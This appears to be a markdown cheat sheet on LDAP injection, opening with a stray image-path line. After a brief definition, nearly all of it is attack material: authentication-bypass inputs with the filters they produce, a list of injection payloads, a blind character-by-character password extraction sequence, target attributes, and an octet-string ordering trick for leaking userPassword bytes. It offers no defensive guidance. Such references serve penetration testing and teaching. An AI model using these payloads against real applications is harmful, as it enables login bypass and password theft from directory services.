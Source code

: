 # LDAP

## LDAP injection:


(&) = True
(|) = False

## basic:
password	aaaaaaa
username	admin)(&)
LDAP query : (& (uid=admin) (&) )  (userPassword=aaaaaaa))

LDAP injection
LDAP Injection is an attack used to exploit web based applications  that construct LDAP statements based on user input. When an application  fails to properly sanitize user input, it's possible to modify LDAP  statements using a local proxy.

## Exploitation

### Example 1.
user  = *)(uid=*))(|(uid=*
pass  = password
query = "(&(uid=*)(uid=*)) (|(uid=*)(userPassword={MD5}X03MO1qnZdYdgyfeuILPmQ==))"

### Example 2
user  = admin)(!(&(1=0
pass  = q))
query = (&(uid=admin)(!(&(1=0)(userPassword=q))))


## Payloads
*
*)(&
*))%00
)(cn=))\x00
*()|%26'
*()|&'
*(|(mail=*))
*(|(objectclass=*))
*)(uid=*))(|(uid=*
*/*
*|
/
//
//*
@*
|
admin*
admin*)((|userpassword=*)
admin*)((|userPassword=*)
x' or name()='username' or 'x'='y

Blind Exploitation
We can extract using a bypass login
(&(sn=administrator)(password=*))    : OK
(&(sn=administrator)(password=A*))   : KO
(&(sn=administrator)(password=B*))   : KO
...
(&(sn=administrator)(password=M*))   : OK
(&(sn=administrator)(password=MA*))  : KO
(&(sn=administrator)(password=MB*))  : KO
...
(&(sn=administrator)(password=MY*))  : OK
(&(sn=administrator)(password=MYA*)) : KO
(&(sn=administrator)(password=MYB*)) : KO
(&(sn=administrator)(password=MYC*)) : KO
...
(&(sn=administrator)(password=MYK*)) : OK
(&(sn=administrator)(password=MYKE)) : OK
Defaults attributes
Can be used in an injection like *)(ATTRIBUTE_HERE=*
userPassword
surname
name
cn
sn
objectClass
mail
givenName
commonName
Exploiting userPassword attribute
userPassword attribute is not a string like the cn attribute for example but it’s an OCTET STRING In LDAP, every object, type, operator etc. is referenced by an OID : octetStringOrderingMatch (OID 2.5.13.18).
octetStringOrderingMatch (OID 2.5.13.18): An ordering matching rule  that will perform a bit-by-bit comparison (in big endian ordering) of  two octet string values until a difference is found. The first case in  which a zero bit is found in one value but a one bit is found in another  will cause the value with the zero bit to be considered less than the  value with the one bit.
userPassword:2.5.13.18:=\xx (\xx is a byte)
userPassword:2.5.13.18:=\xx\xx
userPassword:2.5.13.18:=\xx\xx\xx

